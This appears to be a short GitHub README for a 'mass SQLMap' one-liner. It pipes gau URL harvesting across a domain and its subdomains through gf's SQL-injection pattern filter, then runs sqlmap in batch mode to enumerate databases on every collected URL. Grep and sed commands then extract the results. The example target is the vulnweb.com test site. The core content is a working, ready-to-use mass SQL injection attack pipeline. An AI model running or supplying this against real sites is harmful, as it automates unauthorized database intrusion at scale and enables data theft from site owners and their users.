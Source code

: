 # OneLiner Mass SQLMap

## Tools
- <a href="https://github.com/sqlmapproject/sqlmap/">sqlmap</a>
- <a href="https://github.com/lc/gau">gau</a>
- <a href="https://github.com/tomnomnom/gf">gf</a>
- <a href="https://github.com/1ndianl33t/Gf-Patterns">gf-pattern</a> 
- <a href="https://github.com/dwisiswant0/unew">unew</a>
- grep
- sed

## One Liner Mass SQLMap

```
echo "vulnweb.com" | gau -subs -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,exe | gf sqli | unew >> sqliurls.txt; sqlmap -m sqliurls.txt --batch --dbs | tee -a sqlmap.txt
```

* All log result stored in sqlmap.txt


## Quick find SQLMap result 

<img src="sed.jpg">

** Show line number of logs *sqlmap.txt if get databases with grep keyword *available databases **
```
grep -n "available databases" sqlmap.txt
```

** Slice Output with sed **
```
sed -n 'fromLine,ToLinep' sqlmap.txt
```

Thanks :)

Ve

Follow me <a href="https://twitter.com/Verry__D">@Verry__D</a>

Subscribe Infosec Telegram Channel <a href="https://t.me/sec7or">Tools & Writeups</a>

